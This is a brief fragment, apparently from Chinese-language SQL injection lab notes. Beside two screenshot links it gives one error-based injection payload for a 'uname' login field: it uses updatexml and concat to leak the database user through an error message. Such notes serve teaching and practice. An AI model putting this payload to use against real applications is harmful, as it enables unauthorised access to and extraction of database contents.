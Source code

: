 ![image.png](03.SQL%E6%B3%A8%E5%85%A5/1675320651113-d821a230-dd4f-4ade-a77e-743f0604c7a9.png)![image.png](03.SQL%E6%B3%A8%E5%85%A5/1675320680784-967f5876-11af-46d9-ad84-caa3e6e8c13d.png)
使用报错注入也可以

```sql
uname=admin') and (updatexml(1,concat(0x7e,(select user()),0x7e),1))-- 
```
